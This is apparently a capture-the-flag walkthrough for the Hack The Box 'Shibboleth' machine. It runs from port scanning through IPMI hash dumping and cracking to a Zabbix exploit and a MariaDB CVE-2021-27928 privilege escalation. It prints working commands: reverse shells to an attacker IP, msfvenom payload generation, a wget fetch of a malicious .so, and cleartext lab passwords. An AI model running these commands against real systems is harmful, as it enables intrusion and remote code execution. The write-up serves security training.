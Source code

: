 # [Shibboleth](https://app.hackthebox.com/machines/Shibboleth)

```bash
nmap -p- -min-rate 10000 10.10.11.124 -Pn 
```

![Alt text](img/image.png)

We just know that port (80) is only open, let's do greater nmap scan for this port.

```bash
nmap -A -sC -sV -p80 10.10.11.124 -Pn 
```

![Alt text](img/image-1.png)

There is resolving into 'shibboleth.htb', let's add into '/etc/hosts' file.


Let's do Subdomain Enumeration via `wfuzz` tool.

```bash
wfuzz -u http://shibboleth.htb -H "Host: FUZZ.shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --sc 200
```

![Alt text](img/image-2.png)

Let's add these also into '/etc/hosts' file.

![Alt text](img/image-3.png)


I also do nmap scan for 'UDP' ports.

![Alt text](img/image-4.png)


Port (623) is open, let's enumerate this via `msfconsole`. For this, I will use such an exploit 'use auxiliary/scanner/ipmi/ipmi_dumphashes'

![Alt text](img/image-5.png)


I found hash of 'Administrator', let's crack this via `hashcat` tool.

```bash
hashcat -m 7300 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-6.png)


I have below sensitive credentials.

Administrator: ilovepumkinpie1


For 'http://zabbix.shibboleth.htb/', I login via above credentials.

![Alt text](img/image-7.png)


I search publicly known exploit and find [this](https://www.exploit-db.com/exploits/50816)

```bash
python3 50816.py http://zabbix.shibboleth.htb Administrator ilovepumkinpie1 10.10.16.8 1337
```

![Alt text](img/image-8.png)


I got reverse shell from port (1337).

![Alt text](img/image-9.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-10.png)


I don't have permission to read 'user.txt' file.

![Alt text](img/image-11.png)

I just try to switch with same password as before for 'ipmi-svc' user.

ipmi-svc: ilovepumkinpie1

user.txt

![Alt text](img/image-12.png)


By running `netstat -ntpl`, I see that for port (3306) , mysql database is running.

![Alt text](img/image-13.png)


I found cleartext credentials from '/etc/zabbix/zabbix_server.conf' file.

![Alt text](img/image-14.png)



zabbix: bloooarskybluh


Let's login into our mysql shell via this credentials..
```bash
mysql -u zabbix -pbloooarskybluh
```


I see that version of MariaDB is '10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04'.

![Alt text](img/image-15.png)


I found CVE for this version of MongoDB, whose id is **'CVE-2021-27928'**.


First, let's generate malicious '.so' file.
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=1338 -f elf-so -o dr4ks.so
```

Then, upload this file into target machine.

```bash
python3 -m http.server --bind 10.10.16.8 8080
```

![Alt text](img/image-17.png)

We download a file from http server.

```bash
wget http://10.10.16.8:8080/dr4ks.so
```

![Alt text](img/image-16.png)


Then, access to shell and type this.

```bash
SET GLOBAL wsrep_provider="/home/ipmi-svc/dr4ks.so";
```

![Alt text](img/image-18.png)


I got reverse shell from port (1338).

![Alt text](img/image-19.png)


root.txt

![Alt text](img/image-20.png)
